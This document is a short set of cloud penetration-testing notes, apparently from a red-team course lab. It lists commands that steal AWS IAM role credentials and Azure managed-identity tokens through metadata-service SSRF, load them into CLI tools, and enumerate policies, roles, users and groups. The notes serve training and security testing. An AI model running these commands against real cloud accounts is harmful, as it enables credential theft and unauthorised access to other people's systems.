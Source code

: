 # Cloud Pentest - Notes

**References:**

- https://github.com/RedTeamOperations/RedCloud-OS?tab=readme-ov-file

## Courses

- [Multi Cloud Red Team Analyst](https://cyberwarfare.live/product/multi-cloud-red-team-analyst-mcrta/)

## AWS

**References:**

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf

**Commands:** 

Search S3 Buckets: `python3 cloud_enum.py -k "NAME"` 

SSRF URL for Token and key: `http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role`

Configure & Validate Temporary Credential in AWS CLI:

1. aws configure set aws_access_key_id  [key-id] --profile ec2
2.  aws configure set aws_secret_access_key  [key-id] --profile ec2
3.  aws configure set aws_session_token [token] --profile ec2

Get the Managed Policy Attached to EC2 Instance : `aws iam list-attached-role-policies --role-name ec2-role --profile ec2`

List the IAM groups that the specified IAM user belongs to: `aws iam list-groups-for-user --user-name [user-name] --profile ec2`

 List the names of the inline policies embedded in the specified IAM role : ` aws iam list-role-policies --role-name [role-name] --profile ec2`

List all manages policies that are attached to the specified IAM user : `aws iam list-attached-user-policies --user-name [user-name] --profile ec2` 

Lists all managed policies that are attached to the specified IAM Group : `aws iam list-attached-group-policies --group-name [group-name] --profile ec2`

## AZURE

**References:** 

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#cea8

**Commands:** 

**Note:** API Version in this lab -> 2018-02-01

Instance Details: `curl -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=[API-VERSION]"`

Retrieve Management Token: `curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=[API-VERSION]&resource=https://management.azure.com/"`

Retrieve Graph Token: `curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=[API-VERSION]&resource=https://graph.microsoft.com/"`

**Note:** Decode JWT Token to retrieve data.

Configure access token in az powershell cli:

1. `$token = “AccessToken”`	
2. `Connect-AzAccount -AccessToken $token -AccountId [Tenant ID]`

Get role assignment of managed identity: `Get-AzRoleAssignment -ObjectId [PrincipalID-ManagedIdentity]`

List role assignment: `Get-AzRoleAssignment`

Get role assignment of name: `Get-AzroleDefinition  -Name [RoleDefinitionName]`

Connect to Graph using token: `$token = "[TOKEN]" ; Connect-MgGraph -AccessToken ($token |ConvertTo-SecureString -AsPlainText -Force)`

Enumerate Groups: `Get-MgGroup`

Enumerate Group Membership: `Get-MgGroupMember -GroupId [GroupId]`

Enumerate Users: `Get-MgUser`

Enumerate Applications: `Get-MgApplication`

Enumerate Application Owner: `Get-MgApplicationOwner -ApplicationId "[ID]"`